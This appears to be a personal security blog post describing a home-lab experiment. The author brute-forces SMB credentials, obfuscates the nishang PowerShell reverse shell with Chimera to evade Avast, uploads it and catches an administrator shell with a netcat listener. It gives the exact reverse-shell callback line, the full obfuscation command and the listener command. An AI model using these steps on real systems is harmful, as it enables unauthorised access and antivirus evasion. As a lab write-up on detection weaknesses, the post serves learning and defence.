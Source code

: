```yaml
---
layout: post
date: 2024-02-22
title: "Bypassing Avast with Obfuscated PowerShell: A Lab Experiment"
categories: []
tags: []
---
```


Greetings! I was bored so I decided to see how hard it would be to bypass a simple home antivirus. I searched "free antivirus" on Google and the first thing that popped-up was [Avast](https://www.avast.com/en-us/index#pc). I installed the x64-bit (x64) executable on an updated Windows 10 Pro system (Note: This is a completely default install. I did not mess with any settings). I wanted to do this in a lab environment where I achieve access prior to trying to get around the antivirus. A screenshot confirming the antivirus is running can be seen below.

![Image of Avast showing the Windows PC is protected.](/assets/img/Evading-Avast-With-PowerShell-Obfuscation/Protected_Avast_Screenshot.png)

This lab environment consists of a Windows 10 Pro system and an Attack Host (Kali Linux) on the same private network. Initially, I started an Nmap scan to enumerate the host.
![Screenshot of NMAP command against Windows 10 Host](/assets/img/Evading-Avast-With-PowerShell-Obfuscation/NMAP_Scan_Screenshot.png)

As seen in the screenshot above, SMB (Port 445) is running. To enumerate SMB, I used smbclient, a command line tool that facilitates connections to SMB servers, to successfully authenticate with the '-N' flag.

![Screenshot of SMBClient listing with null session to see shared drives](/assets/img/Evading-Avast-With-PowerShell-Obfuscation/SMBClient_List_Screenshot.jpeg)
Following successful connection, I attempted to place a file without a username and password. This attempt failed due to security settings as seen in the screenshot below. 

![Screenshot of SMBClient failing to put a file](/assets/img/Evading-Avast-With-PowerShell-Obfuscation/SMBClient_Put_Screenshot.jpeg)

The earlier screenshot had a comment from "lemon" - so let's try to brute-force credentials for username "lemon". The [Netexec](https://github.com/Pennyw0rth/NetExec) tool
![Netexec Brute-force for SMB screenshot](/assets/img/Evading-Avast-With-PowerShell-Obfuscation/Netexec_Brute_Force.jpeg)

We find credentials for `lemon:CHOCOLATE`
Then we can authenticate and attempt to place a reverse shell script [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

![Attempt to place a shell in the SMB share](/assets/img/Evading-Avast-With-PowerShell-Obfuscation/SMBClient_placing_shell.jpeg)

The reverse shell gets stuck uploading in the previous image. Swapping over to the Windows 10 host, there is a Warning from AVAST that quarantined the reverse shell as it was uploaded. 
![Warning from AVAST for Reverse Shell](/assets/img/Evading-Avast-With-PowerShell-Obfuscation/AVAST_Reverse_Shell_warning.jpeg)

Avast was likely able to detect a threat here because [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) is a seven year-old reverse shell script with around 8,000 stars on Github. Although this script isn't necessarily malware, it definitely isn't a script an administrator would commonly use. Thus, it is classified as a PUP (Potentially Unwanted Program) and blocked.

My initial thought to evade detection is to obfuscate the script. Through my online research, I was able to find a script called [Chimera](https://github.com/tokyoneon/Chimeramade) made  by [TokyoNeon](https://x.com/tokyoneon_?s=20).

>Chimera is a (shiny and very hack-ish) PowerShell obfuscation script designed to bypass AMSI and antivirus solutions. It digests malicious PS1's known to trigger AV and uses string substitution and variable concatenation to evade common detection signatures.

So, I cloned the repository and adjusted the last line in the reverse shell in `shells/Invoke-PowerShellTcp.ps1` to: 

```
Invoke-PowerShellTcp -Reverse -IPAddress 192.168.0.175 -Port 8080
```

Once that is saved, I ran the script `chimera.sh` with options provided from `README.md`:

```
./chimera.sh -f shells/Invoke-PowerShellTcp.ps1 -l 3 -o /home/kali/NotAVirus.ps1 -v -t powershell,windows,\
copyright -c -i -h -s length,get-location,ascii,stop,close,getstream -b new-object,reverse,\
invoke-expression,out-string,write-error -j -g -k -r -p
```

This obfuscates the script and places it in the home directory. Next, I started a listener on my host:

```
nc -lnvp 8080
```
Let's test. I uploaded the script via smbclient using lemon's credentials as we did before.  

![Successfully uploading Virus file to Windows Host - Also, why are you reviewing my source code?](/assets/img/Evading-Avast-With-PowerShell-Obfuscation/Uploading_Virus_Successfully.jpeg)

After waiting for a few minutes for the script to automatically execute, the netcat listener receives a connection back from the Windows host.

![Connection recieved from the reverse shell screenshot](/assets/img/Evading-Avast-With-PowerShell-Obfuscation/Reverse_Shell_Recieved.png)

To test command execution, I issued `whoami /groups` which reveals the current user is an administrator.

![Output from the command "Whoami /groups"](/assets/img/Evading-Avast-With-PowerShell-Obfuscation/WHOAMI_GROUPS_SCREENSHOT.png)

Furthermore, I confirmed the connection was active in command prompt with `netstat` and Avast wasn't showing any alerts. I would assume this is because an outgoing connection via PowerShell isn't inherently malicious. If anything, this demonstration shows the downfalls of signature-based detections.

![Checking netstat in cmd prompt and Antivirus status](/assets/img/Evading-Avast-With-PowerShell-Obfuscation/Connection_Active_Protected_Screenshot.jpeg)

Issuing additional commands to confirm I have administrator privileges and the reverse shell works:

![Screenshot with additional commands in Administrator's home directory](/assets/img/Evading-Avast-With-PowerShell-Obfuscation/Confidential_Screenshot.jpeg)

This was a fun exercise to try and get around pesky AVs. Further documentation and reading on the obfuscation script can be found here:
I hope you enjoyed reading! 

Additional resources:

- [Null Byte website](https://null-byte.wonderhowto.com/how-to/hacking-windows-10-bypass-virustotal-amsi-detection-signatures-with-chimera-0333967/)
- [Chimera Github Link](https://github.com/tokyoneon/Chimera)
- [Trend Micro ASMI bypass techniques](https://www.trendmicro.com/en_vn/research/22/l/detecting-windows-amsi-bypass-techniques.html)

